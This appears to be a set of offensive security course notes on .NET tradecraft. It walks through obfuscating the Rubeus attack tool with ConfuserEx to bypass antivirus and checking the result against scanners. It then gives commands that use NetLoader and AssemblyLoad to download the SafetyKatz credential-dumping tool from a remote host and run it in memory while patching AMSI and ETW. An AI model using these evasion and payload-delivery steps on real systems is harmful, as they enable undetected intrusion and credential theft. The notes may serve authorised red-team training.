







# 3 Offensive dot NET Introduction

## Offensive .NET - TradeCraft - AV Bypass Obfuscation

1. Check with ThreatCheck

```powershell
C:\> Threatcheck.exe -f Rubeus.exe
```



2. Now we will use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary Launch ConfuserEx

* In Project tab select the Base Directory where the binary file is located.



* In Project tab Select the Binary File that we want to obfuscate.
* In Settings tab add the rules.
* In Settings tab edit the rule and select the preset as `Normal`.



* In Protect tab click on the protect button.



* Analyzing using ThreatCheck



* Rechecking on Antiscan.me


* Obfuscated Rubeus.exe



* Original Rubeus.exe



***

## Offensive .NET - Tradecraft - Payload Delivery

* We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads.
* It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.

```powershell
C:\Users\Public\Loader.exe -path http://10.10.10.10/SafetyKatz.exe 
```

* We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.

```powershell
C:\Users\Public\AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```
